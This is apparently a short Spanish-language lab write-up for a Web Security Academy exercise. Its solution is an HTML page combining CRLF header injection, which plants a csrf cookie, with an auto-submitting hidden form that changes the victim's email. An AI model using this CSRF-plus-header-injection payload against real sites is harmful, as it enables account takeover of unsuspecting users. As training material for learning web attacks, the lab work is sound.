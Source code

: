 ## Objetivo:

![[Pasted image 20240519212053.png]]



## Solucion:

![[Pasted image 20240519212329.png]]

![[Pasted image 20240519212631.png]]

```
<body>

<form action="https://0a75002d046737aa8220f60700e0003e.web-security-academy.net/my-account/change-email" method="post">

<input type="hidden" name="email" value="pwned@gmail.com" />

<input type="hidden" name="csrf" value="Z4CqpEdCDhX4n7WoBJJgCaiw9HumyV3e" />

</form>

  

<img src="https://0a75002d046737aa8220f60700e0003e.web-security-academy.net/?search=mibusqueda%0d%0aSet-Cookie:%20csrf=Z4CqpEdCDhX4n7WoBJJgCaiw9HumyV3e;%20SameSite=None" onerror="document.forms[0].submit()"/>

</body>
```
